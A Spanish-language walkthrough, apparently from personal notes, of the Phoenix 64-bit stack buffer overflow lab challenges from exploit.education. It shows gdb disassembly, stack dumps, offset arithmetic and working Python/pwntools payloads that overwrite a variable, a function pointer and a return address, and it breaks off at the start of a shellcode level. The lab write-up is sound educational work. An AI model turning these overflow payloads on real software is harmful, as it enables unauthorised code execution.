 
En este post nos vamos a meter con los retos de "phoenix" de exploit education, a diferencia de protostar, hablamos de 64 bits, el estandar actual.

## Stack-Zero

El stack Zero como reto inicial, no porpone ninguna dificultad, ya que simplemente se trata de desbordar el buffer metiendole demasaida "basura"
al programa.

Para profundizar más en el lenguaje a bajo nivel, bamos a desensamblar este bianrio. Vamo a analizarlo por partes.

```
(gdb) disas main
Dump of assembler code for function main:
  ----------------------------------------------------------------------
   0x00000000004005dd <+0>:     push   rbp
   0x00000000004005de <+1>:     mov    rbp,rsp
   0x00000000004005e1 <+4>:     sub    rsp,0x60   # Preparar una pila de 0x60 de tamaño, desde rsp
   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
  ----------------------------------------------------------------------
   0x00000000004005ec <+15>:    mov    edi,0x400680 
   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt> 
[ #### (gdb) x/s 0x400680   # Metemos el edi el argumnto de puts, segun calling conventions.    ]
[ 0x400680:       "Welcome to phoenix/stack-zero, brought to you by https://exploit.education"  ]
  ---------------------------------------------------------------------- 
   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
[ #### (gdb) x/x $rbp-0x10    # O sea aqui tenemos la famosa varaible "changme" que hay que rellenar  ]
[ 0x7fffffffe520: 0x00                                                                                ]
  ---------------------------------------------------------------------- 
   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]                 
   0x0000000000400601 <+36>:    mov    rdi,rax                        
   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>            
[ #### (gdb) x/s $rbp-0x50    # Con las calling conventions metemos en rdi el argumento de gets, o sea nuestro input.  ]
[ 0x7fffffffe4e0: 'A' <repeats 11 times>                                                                               ]                                   
  ---------------------------------------------------------------------- 
   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:    test   eax,eax       # Se ve si eax (changeme = rbp+0x10) ha sido modificado o no
   0x000000000040060e <+49>:    je     0x40061c <main+63>
   0x0000000000400610 <+51>:    mov    edi,0x4006d0      # Por aqui vamos si hemos hecho bien.
   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
[ #### (gdb) x/s 0x4006d0                                                 ]
[ 0x4006d0:       "Well done, the 'changeme' variable has been changed!"  ]
[ (gdb) x/x $rbp-0x10     # La varaible changme que hay que modificar     ]
[ 0x7fffffffe520: 0x00                                                    ]

  ---------------------------------------------------------------------- 
   0x000000000040061c <+63>:    mov    edi,0x400708    
   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
[ #### (gdb) x/s 0x400708                                                                    ]
[ 0x400708:       "Uh oh, 'changeme' has not yet been changed. Would you like to try again?" ]
  ----------------------------------------------------------------------  
   0x0000000000400626 <+73>:    mov    edi,0x0
   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
   
(gdb) b *0x000000000040062b
(gdb) run
AAAAAAAAAAA
(gdb) x/40x $rsp
0x7fffffffe4d0: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe4e0: 0x41414141      0x41414141      0x00414141      0x00000000
0x7fffffffe4f0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe500: 0x00000000      0x00000000      0xffffe588      0x00007fff
0x7fffffffe510: 0x00000001      0x00000000      0xffffe598      0x00007fff
0x7fffffffe520: 0x00000000      0x00000000      0x00000000      0x00000000
```
O sea que tanto analizando el ensamblador como la pila dicen que el input empieza en 0x7fffffffe4e0 y la variable a escribir esta en 0x7fffffffe520
```
(gdb) p/d 0x7fffffffe520 - 0x7fffffffe4e0 
$1 = 64
```
Buffer de 64 bits

```console
[user@phoenix]:$   python -c "print 'A'* 64" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[user@phoenix]:$ python -c "print 'A'* 70" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

-----------------------------------------------------------------------------------------

## Stack - One

Aquí hay que sobreescribir la varaible pero con un valor en conreto, lo desensamble como arriba: 
```console
   mov edi,0x400750 ;call 0x4004c0 <puts@plt>
            puts("Welcome to phoenix/stack-one, brought to you by https://exploit.education")

   mov esi,0x4007a0; call  0x4004d0 <errx@plt>
            puts("specify an argument, to be copied into the \"buffer\"")

   lea rax,[rbp-0x50]; mov rdi,rax; call   0x4004a0 <strcpy@plt>
            char buffer (0x50);
            strcpy(buffer, input);   <- [rbp-0x50] 0x7fffffffe460:

   mov eax,DWORD PTR [rbp-0x10]; cmp eax,0x496c5962; jne 0x4006d7 <main+106>
            if buffer !=  0x496c5962: <- [rbp-0x10] 0x7fffffffe4a0
        
   mov edi,0x4007d8; call 0x4004c0 <puts@plt>
            puts("Well done, you have successfully set changeme to the correct value")
                 
   mov edi,0x400820; call   0x4004b0 <printf@plt>
            puts("Getting closer! changeme is currently \"\", we want 0x496c5962\n")
            
        (gdb) p/d 0x7fffffffe4a0 - 0x7fffffffe460 -> 64

[user@phoenix]:$ ./stack-one $(python -c "print 'A'* 64 + '\x62\x59\x6c\x49'") 
        Well done, you have successfully set changeme to the correct value
```
-----------------------------------------------------------------------------------------

## Stack - Three

Aqui hay un buffer de 64 bytes seguido por un puntero de función [Aqui](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Stack.md#sobreescribir-un-puntero-de-instruccion) lo explico con detalle.

```console
[user@phoenix]:$ objdump -d ./stack-three | grep "^0"
...
000000000040069d <complete_level>:
...
```

El aunto es que tanto al ponerlo en oneliner o exploit no da buenos resultados, metiendo una "0xa" donde no debe. 

```console
[user@phoenix]:$ python -c "print 'A' * 64 + '\x9d\x06\x40\x00'" | ./stack-three 
calling function pointer @ 0xa0040069d; Segmentation fault
```
```python
from struct import pack
payload = 'A' * 64
payload += pack("I", 0x40069d)
print(payload)
```

Pero hay otro módulo llamado "pwntools" que está pensado parala explotación de bianrios (entre otras)
```python
from pwn import *
payload = 'A' * 64
payload += p64(0x40069d)
print(payload)
```
```console
[user@phoenix]:$ python /tmp/exploit.py | ./stack-three 
calling function pointer @ 0x40069d; Congratulations, you've finished phoenix/stack-three :-) Well done!
```
-----------------------------------------------------------------------------------------

## Stack - Four

He metido un par de "A" y con el gdb he parado antes de que salga de la funcíon, luego he abierto la pila a ver que hay.
Tambien se ve que el input de "A" empieza justo en rsp (la pila)

```
(gdb) x/40x $rsp
0x7fffffffe490: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe4a0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe4b0: 0x41414141      0x41414141      0x41414141      0x00004141
0x7fffffffe4c0: 0xf7ffb300      0x00007fff      0xf7db9934      0x00007fff
0x7fffffffe4d0: 0xffffe558      0x00007fff      0x0040068d      0x00000000
0x7fffffffe4e0: 0xffffe500      0x00007fff      0x0040068d      0x00000000   # despues de rbp esta la direccion de la siguiente funcion

(gdb) x/x $rbp
0x7fffffffe4e0: 0xffffe500
(gdb) p/d $rbp - $rsp 
$2 = 80
```

Es decir la direccion de la funcion hay que meterla despues de rbp (a mas de 80 de buffer).
Como estamos en 64 bits, la data es muy larga, por lo que se suele dividir en dos direcciones de memoria, asi que en vez de rbp +4 es +8.
```
(gdb) x/x 0x7fffffffe528
0x7fffffffe528: 0x0040068d
```
```python
from pwn import *
payload = 'A' * 88
payload += p64(0x40061d)
print(payload)
```
```console
[user@phoenix]:$  python /tmp/exploit.py | ./stack-four
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

---------------------------------------------------------------------------------------

# Stack - Five

Este tiene pinta de ser un shellcode buffer overflow
```
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:     push   rbp
   0x000000000040058e <+1>:     mov    rbp,rsp
   0x0000000000400591 <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:    mov    rdi,rax
   0x000000000040059c <+15>:    call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:    nop
   0x00000000004005a2 <+21>:    leave  
   0x00000000004005a3 <+22>:    ret    
(gdb) p/d 0x80
$1 = 128
```

















